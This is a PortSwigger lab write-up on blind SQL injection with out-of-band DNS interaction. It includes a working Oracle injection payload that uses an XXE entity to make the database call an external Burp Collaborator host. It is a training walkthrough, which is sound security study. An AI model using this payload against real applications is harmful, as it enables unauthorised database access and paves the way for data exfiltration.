 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/fc896581-2e92-4aa9-b6be-eb2c2c0b5a6a)

## Solution:

The payloads for each domain to perform a DNS lookup to an external domain.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/62e77cbb-65bd-47e8-863e-3f4371c8ed79)

Query made -

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/b47a5684-105b-4c94-b0ad-269843e6cffc)

Then click on copy to clipbord option = `t828uox8ju7ieb53eurz8unel5rwfm3b.oastify.com` we need paste it in the payload which we are going to do.

Since we are unsure of the database we are working with, we attempt every payload listed on DNS lookup for every database.

So the first one will be Oracle

For that the payload is

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--`

Then query will be changed by pasting the external domain provided by collaborator would look like this

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://in9x9dcxyjm7t0kstj6onj230u6luci1.oastify.com/"> %remote;]>'),'/l') FROM dual)--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/b9d05e37-f9d4-4c87-bdd1-5cb1af793a73)

Poll now at collabrator

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a70c4861-002a-4766-86d1-e26067faf84f)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/c320418c-b95b-4486-9895-0b84135f430c)

